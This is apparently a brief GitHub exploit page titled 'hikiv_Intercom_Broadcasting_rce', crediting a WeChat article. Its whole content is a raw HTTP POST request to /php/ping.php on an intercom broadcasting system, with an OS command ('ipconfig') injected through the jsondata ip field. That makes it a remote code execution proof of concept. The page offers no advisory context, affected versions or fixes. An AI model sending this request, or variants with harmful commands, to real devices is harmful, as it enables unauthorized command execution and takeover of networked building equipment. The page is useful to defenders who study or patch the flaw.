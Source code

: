 # hikiv_Intercom_Broadcasting_rce
from : https://mp.weixin.qq.com/s/ijQtIMqgdLjla1GuTuO28w
```
POST /php/ping.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 43
Connection: close

jsondata%5Btype%5D=99&jsondata%5Bip%5D=ipconfig
```
